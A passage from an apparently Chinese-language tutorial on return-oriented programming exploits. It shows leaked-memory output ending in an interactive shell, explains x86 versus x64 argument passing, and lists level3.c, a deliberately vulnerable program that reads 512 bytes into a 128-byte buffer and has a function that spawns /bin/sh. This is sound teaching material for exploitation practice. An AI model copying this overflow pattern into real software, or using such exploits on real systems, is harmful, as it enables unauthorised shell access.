 ```
0xb77c3840 => 362d6c69
0xb77c3844 => 6e75782d
0xb77c3848 => 676e752f
0xb77c384c => 6c696263
0xb77c3850 => 2e736f2e
0xb77c3854 => 36000000
0xb77c3858 => 007060b7
0xb7607000 => 7f454c46
0xb77c3860 => 7cdd7ab7
0xb7607004 => 01010100
0xb77add7c => 01000000
0xb77add84 => 0e000000
0xb77add8c => 0c000000
0xb77add94 => 19000000
0xb77add9c => 1b000000
0xb77adda4 => 04000000
0xb77addac => f5feff6f
0xb77addb0 => b87160b7
0xb77addb4 => 05000000
0xb77addb8 => 584161b7
0xb77addbc => 06000000
0xb77addc0 => 38ae60b7
0xb76071b8 => f3030000
0xb76071bc => 09000000
0xb76071c0 => 00020000
0xb7608390 => 8e050000
0xb7609fa8 => 8ae4ee1c
0xb7610718 => 562f0000
0xb76170ae => 73797374
0xb76170b2 => 656d0074
0xb761071c => 60f40300
system_addr=0xb7646460

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
mzheng 
```

## 0x02 linux_64与linux_86的区别

linux_64与linux_86的区别主要有两点：首先是内存地址的范围由32位变成了64位。但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。

我们还是拿实际程序做例子进行讲解,level3.c内容如下：

```
#!c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void callsystem() {
    system("/bin/sh");
}
void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
} 

```